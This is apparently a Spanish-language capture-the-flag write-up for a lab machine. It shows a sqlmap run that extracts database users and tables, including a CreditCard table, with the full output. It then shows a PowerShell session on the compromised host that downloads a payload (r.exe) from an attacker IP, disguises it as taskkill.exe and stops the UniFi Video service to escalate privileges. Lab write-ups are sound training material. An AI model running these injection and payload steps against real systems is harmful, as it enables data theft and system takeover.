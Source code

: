 Lo siguiente que hice fue sacar a los usuarios, las tablas y los passwords, lo resumo con los resultados:

`sqlmap -u "http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18" --table --users --passwords`

``` text
[11:58:04] [INFO] fetching database users
[11:58:04] [INFO] used SQL query returns 3 entries
[11:58:05] [INFO] retrieved: 'BUILTIN\\Users'
[11:58:05] [INFO] retrieved: 'giddy\\stacy'
[11:58:05] [INFO] retrieved: 'sa'

[11:58:05] [INFO] fetching database users password hashes
[11:58:06] [WARNING] the SQL query provided does not return any output
[11:58:06] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[11:58:06] [WARNING] the SQL query provided does not return any output
[11:58:06] [INFO] fetching database users
[11:58:06] [INFO] used SQL query returns 3 entries
[11:58:06] [INFO] resumed: 'BUILTIN\\Users'
[11:58:06] [INFO] resumed: 'giddy\\stacy'
[11:58:06] [INFO] resumed: 'sa'
[11:58:19] [ERROR] unable to retrieve the password hashes for the database users (probably because the DBMS current user has no read privileges over the relevant system database table(s))

[11:58:19] [INFO] fetching database names
[11:58:20] [INFO] used SQL query returns 5 entries
[11:58:20] [INFO] retrieved: 'Injection'
[11:58:20] [INFO] retrieved: 'master'
[11:58:20] [INFO] retrieved: 'model'
[11:58:21] [INFO] retrieved: 'msdb'
[11:58:21] [INFO] retrieved: 'tempdb'
[11:58:21] [INFO] fetching tables for databases: Injection, master, model, msdb, tempdb
Database: Injection
[13 tables]
+----------------------------------------------------------+
| Applications                                             |
| CreditCard                                               |
| Memberships                                              |
| Product                                                  |
| ProductCategory                                          |
| ProductSubcategory                                       |
| Profiles                                                 |
| Roles                                                    |
| Users                                                    |
| UsersInRoles                                             |
| UsersOpenAuthAccounts                                    |
| UsersOpenAuthData                                        |
| __MigrationHistory                                       |
+----------------------------------------------------------+

Database: master
[488 tables]

Database: msdb
[23 tables]
+----------------------------------------------------------+
| autoadmin_backup_configuration_summary                   |
| backupfile                                               |
| backupmediafamily                                        |
| backupmediaset                                           |
| backupset                                                |
| dm_hadr_automatic_seeding_history                        |
| logmarkhistory                                           |
```

[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video>
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService